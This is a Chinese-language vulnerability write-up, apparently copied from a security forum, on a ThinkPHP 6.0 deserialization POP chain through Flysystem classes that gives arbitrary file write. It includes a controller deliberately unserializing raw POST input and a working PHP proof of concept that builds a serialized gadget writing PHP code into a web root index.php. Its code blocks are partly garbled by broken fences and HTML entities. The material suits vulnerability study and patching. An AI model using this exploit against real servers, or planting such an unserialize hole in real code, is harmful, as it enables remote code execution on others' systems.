







# Thinkphp 6.0 任意文件写入pop链

> 原文：[https://www.zhihuifly.com/t/topic/3173](https://www.zhihuifly.com/t/topic/3173)

# Thinkphp 6.0 任意文件写入pop链

## 一、漏洞简介

需要知晓绝对路径

## 二、漏洞影响

Thinkphp 6.0

## 三、复现过程

### 环境搭建

ThinkPHP6.0.2

PHP7.2

```
<?php
namespace app\controller;
use app\BaseController;

class Index extends BaseController

```
public function test(){
    echo base64_decode($_POST['payload']);
    $payload = unserialize(base64_decode($_POST['payload']));
} 
``` `}` 
```

### 漏洞分析

POP链：

```
League\Flysystem\Cached\Storage\AbstractCache --> destruct()
League\Flysystem\Cached\Storage\Adapter --> save()
League\Flysystem\Adapter\Local --> write()
vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php 
```



因AbstractCache类为抽象类，需找到其实现子类，且要有save()方法

成功找到：`vendor/league/flysystem-cached-adapter/src/Storage/Adapter.php`



$contents决定文件写入内容，显然可向$this->complete或$this->expire写入具体内容即可



接下来需找到具有write()方法的类，`vendor/league/flysystem/src/Adapter/Local.php`中Local类符合条件



但`ensureDirectory()`对利用造成了影响，将对目录进行检测，因而造成必须使用绝对路径


### 漏洞复现

根据分析写出poc

> 该利用链较为鸡肋，要求必须知晓写入文件的绝对路径

```
<?php
namespace League\Flysystem\Cached\Storage;#AbstractCache Adapter
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
	protected $autosave = true;
	protected $cache = [];
	protected $complete = [];
	function __construct(){
		$this->autosave = false;
		$this->cache = ['test'];
		$this->complete = ["axin"=>"<?php phpinfo();?>"];
	}
}

class Adapter extends AbstractCache{

protected $adapter;

protected $file;

protected $expire = null;

```
function __construct(){
	parent::__construct();
	$this-&gt;adapter = new Local();
	$this-&gt;file = "var/www/html/index.php";
    #$this-&gt;file = "://WampServer/www/tp/tp6.0.1/public/index.php"; #winsows下目录
	$this-&gt;expire = 123;
} 
```

}

namespace League\Flysystem\Adapter;

abstract class AbstractAdapter{

protected $pathPrefix;

function __construct(){

$this->pathPrefix = “/”;

#$this->pathPrefix = “D”;  #windows下目录

}

}

class Local extends AbstractAdapter{ `}

use League\Flysystem\Cached\Storage\Adapter;

echo base64_encode(serialize(new Adapter()));` 
```



效果演示：自己构造一个反序列化输入点，发送请求(页面的输出是我自己方便调试打印的)



文件成功写入：



## 参考链接

> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP6.0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE(%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)%E5%88%86%E6%9E%90/

> https://www.anquanke.com/post/id/194269